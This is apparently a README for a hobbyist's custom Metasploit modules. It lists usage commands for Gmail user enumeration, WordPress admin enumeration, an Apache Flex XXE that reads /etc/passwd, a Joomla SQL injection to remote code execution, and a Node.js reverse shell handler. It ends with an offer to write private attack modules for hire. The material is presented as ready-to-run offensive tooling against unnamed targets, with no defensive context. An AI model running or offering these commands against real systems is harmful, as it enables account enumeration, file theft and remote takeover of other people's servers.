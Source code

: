 # Modules MSF. 

Some modules that I created for fun. =]

##### gmail_checker.rb
Enumerate user of gmail. 

````
msf> use auxiliary/gather/gmail_checker
msf> set check_email email_target@gmail.com
msf> run
. 
. 
.
````
##### Wordpress Enumeration Users 
Enumerate adminnistrations users. 

````
msf> use auxiliary/gather/wordpress_enumerating_username
msf> set rhost <target>
msf> exploit 
.
.
.
````

##### wp_drive_rce
RCE in Google Drive plugin for wordpress .

##### wp_with_pritz
Path Transversal WP with Spritz for wordpress .

##### apacheflex_xxe
XXE Injection in Apache Flex 

````
msf> use auxiliary/http/apacheflex_xxe
msf> set rhost <target>
msf> set rport <target>
msf> set file  </etc/passwd>
msf> exploit 
.
.
.
`````


##### joomla_comfields_sqli_rce
SQL Injection in Joomla 

`````
msf> use exploits/unix/webapp>joomla_comfields_sqli_rce
msf> set rhost <target>
msf> set rport <target>
msf> exploit 
.
.
.
`````


##### nodejs_reverseshell
Reverse TCP using Node JS

`````
msf> use exploits/multi/handler
msf> set payload cmd/unix/reverse_nodejs
msf> set rhost <ip>
msf> set rport <port>
msf> exploit

`````




######## Obs: 
I do private jobs (private modules . . .), if you are interesting send me an e-mail at: dctoralves@gmail.com
